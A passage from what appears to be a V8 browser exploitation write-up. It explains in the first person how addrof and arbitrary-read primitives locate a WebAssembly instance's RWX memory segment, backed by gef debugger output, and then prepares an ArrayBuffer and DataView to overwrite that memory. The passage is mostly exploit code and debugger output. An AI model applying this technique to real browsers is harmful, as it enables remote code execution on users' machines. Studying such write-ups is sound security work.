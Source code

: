 This is the JS code which is used to create `pwn` function which would reside in the `rwx` section, with this step aside, let's move on:-

```js
var wasm_instance_addr = addrof(wasm_instance) & 0xffffffffn;
var rwx = arb_read(wasm_instance_addr + 0x68n & 0xffffffffn);
```
First off, we needed to find the base address of the `rwx` segment, this was easier to find since, all I had to do is to find the address stored throught the memory and from what offset, it was exactly located at, I used the `gef`'s `search-pattern rwx_address` and found the reference of that memory located at the offset `wasm_instance_addr + 0x68`:-

```asm
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00002f81a4494000 0x00002f81a4495000 0x0000000000000000 rwx 
0x00003ce700000000 0x00003ce70000c000 0x0000000000000000 rw- 
0x00003ce70000c000 0x00003ce700040000 0x0000000000000000 --- 
0x00003ce700040000 0x00003ce700041000 0x0000000000000000 rw- 
0x00003ce700041000 0x00003ce700042000 0x0000000000000000 --- 
0x00003ce700042000 0x00003ce700052000 0x0000000000000000 r-x 
0x00003ce700052000 0x00003ce70007f000 0x0000000000000000 --- 


[..snip..]

gef➤  search-pattern 0x00002f81a4494000
[+] Searching '\x00\x40\x49\xa4\x81\x2f\x00\x00' in memory
[+] In (0x3ce708080000-0x3ce70818d000), permission=rw-
  0x3ce70808a78c - 0x3ce70808a7ac  →   "\x00\x40\x49\xa4\x81\x2f\x00\x00[...]" 
  0x3ce70808a7d8 - 0x3ce70808a7f8  →   "\x00\x40\x49\xa4\x81\x2f\x00\x00[...]" 
[+] In (0x3ce708200000-0x3ce708280000), permission=rw-
  0x3ce708211230 - 0x3ce708211250  →   "\x00\x40\x49\xa4\x81\x2f\x00\x00[...]" 
[+] In '[heap]'(0x55555648d000-0x55555658a000), permission=rw-
  0x5555564dc618 - 0x5555564dc638  →   "\x00\x40\x49\xa4\x81\x2f\x00\x00[...]" 
  0x5555564df560 - 0x5555564df580  →   "\x00\x40\x49\xa4\x81\x2f\x00\x00[...]" 

[..snip..]

gef➤  p 0x00003ce700000000 + 0x82111c9
$1 = 0x3ce7082111c9
gef➤  p 0x3ce708211230 - 0x3ce7082111c9
$2 = 0x67
```


With the above out of the way, we need to know make use of `DataView` and `ArrayBuffer` as this will help you in overwriting the address with the desired value, in short these two functions allows you to write the data in binary format using the `ArrayBuffer`.

```js
console.log("[+] Wasm instance address: 0x" + wasm_instance_addr.toString(16));

console.log("[*] RWX INSTANCE:   0x" + rwx.toString(16));


var arr_buf = new ArrayBuffer(0x100);
var dataview = new DataView(arr_buf);
```
